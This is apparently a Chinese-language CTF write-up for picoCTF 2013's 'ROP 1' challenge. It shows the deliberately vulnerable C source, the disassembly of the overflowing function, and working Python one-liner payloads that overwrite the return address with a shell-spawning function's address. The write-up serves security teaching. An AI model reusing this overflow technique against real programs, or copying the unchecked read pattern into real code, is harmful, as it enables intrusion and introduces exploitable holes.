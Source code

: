 ```yaml
---
layout: post
title: ROP 1
categories: writeups
tags: pwn
ctfsite: picoctf-2013
challenge_url: https://github.com/picoCTF/picoCTF-2013-problems/tree/master/ROP%201
---
```


这是一道基本的溢出题，也提供了源码：

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int not_called() {
	return system("/bin/bash");
}

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 256);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
	be_nice_to_people();
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

{% include writeup_begin.html %}

看一下 `vulnerable_function` 的反汇编代码，`buf` 在 `$ebp-0x88` 处：

```asm
/ (fcn) sym.vulnerable_function 41
|   sym.vulnerable_function ();
|           ; var int local_88h @ ebp-0x88
|           ; var void *buf @ esp+0x4
|           ; var size_t nbyte @ esp+0x8
|           0x080484b8      push ebp
|           0x080484b9      mov ebp, esp
|           0x080484bb      sub esp, 0x98
|           0x080484c1      mov dword [nbyte], 0x100 ; [0x100:4]=-1 ; 256 ; size_t nbyte
|           0x080484c9      lea eax, [local_88h]
|           0x080484cf      mov dword [buf], eax ; void *buf
|           0x080484d3      mov dword [esp], 0 ; int fildes
|           0x080484da      call sym.imp.read ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x080484df      leave
\           0x080484e0      ret
```

因此首先使用 0x88 个字节把缓冲区填满，4 个字节填满 ebp，后面 4 个字节填上 `not_called` 的地址。由于 `read` 需要读取 256 个字节，再把剩下的字节随便填上即可：

```python
(python -c "print '0' * 0x88 + '0000\xa4\x84\x04\x08' + '0' * (256 - 0x88 - 8)";cat) | ./rop1-fa6168f4d8eba0eb
                               ↑EBP ↑----返回地址----↑    ↑缓冲区剩余部分
```

不过这条命令在 Ubuntu 18.04 中会有点问题，`cat` 无法继续读入 `stdin` 的内容。这时可以直接将要执行的命令添加在 python 的字符串后面，比如

```python
python -c "print '0' * 0x88 + '0000\xa4\x84\x04\x08' + '0' * (256 - 0x88 - 8) + 'ls'" | ./rop1-fa6168f4d8eba0eb
```

{% include writeup_end.html %}
